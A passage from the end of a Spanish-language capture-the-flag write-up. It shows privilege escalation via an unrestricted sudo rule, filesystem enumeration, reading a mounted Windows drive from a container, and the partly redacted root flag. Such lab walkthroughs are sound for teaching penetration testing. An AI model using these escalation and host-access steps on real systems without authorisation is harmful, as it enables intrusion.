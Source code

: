 Y ganamos acceso a otro contenedor.

Tenemos permiso para ejecutar cualquier usuario como `root`
```shell
docker@box:~$ sudo -l                                                                    
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
docker@box:~$ sudo su                                                                    
root@box:/home/docker#
```

Enumerando el sistema encontramos un directorio `c` en la raíz del sistema.
```shell
root@box:/# ls -la                                                                       
total 244
drwxr-xr-x   17 root     root           440 Aug 24 18:05 .
drwxr-xr-x   17 root     root           440 Aug 24 18:05 ..
drwxr-xr-x    2 root     root          1420 Aug 24 18:03 bin
drwxr-xr-x    3 root     root            60 Aug 24 18:05 c
drwxrwxr-x   14 root     staff         4340 Aug 24 18:03 dev
drwxr-xr-x    9 root     root          1000 Aug 24 18:05 etc
drwxrwxr-x    4 root     staff           80 Aug 24 18:03 home
-rwxr-xr-x    1 root     root           496 Oct 19  2019 init
drwxr-xr-x    4 root     root           800 Aug 24 18:02 lib
lrwxrwxrwx    1 root     root             3 Aug 24 18:02 lib64 -> lib
lrwxrwxrwx    1 root     root            11 Aug 24 18:02 linuxrc -> bin/busybox
drwxr-xr-x    4 root     root            80 Aug 24 18:02 mnt
drwxrwsr-x    3 root     staff          180 Aug 24 18:05 opt
dr-xr-xr-x  163 root     root             0 Aug 24 18:02 proc
drwxrwxr-x    2 root     staff           80 Aug 24 18:03 root
drwxrwxr-x    6 root     staff          140 Aug 24 18:05 run
drwxr-xr-x    2 root     root          1300 Aug 24 18:03 sbin
-rw-r--r--    1 root     root        241842 Oct 19  2019 squashfs.tgz
dr-xr-xr-x   13 root     root             0 Aug 24 18:03 sys
lrwxrwxrwx    1 root     root            13 Aug 24 18:02 tmp -> /mnt/sda1/tmp
drwxr-xr-x    7 root     root           140 Aug 24 18:03 usr
drwxrwxr-x    8 root     staff          180 Aug 24 18:03 var
```

Y esto parece un sistema de ficheros de Windows...
```shell
root@box:/c/Users# ls                                                                    
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony

```

Y como tenemos acceso a todo el sistema de ficheros sin restricciones porque en el contenedor somo `root` podemos leer la flag de `root`
```shell
root@box:/c/Users/Administrator/Desktop# cat root.txt                                    
cc9a0b76ac17f8f...
```

¡Y ya estaría!

Happy Hacking! 🚀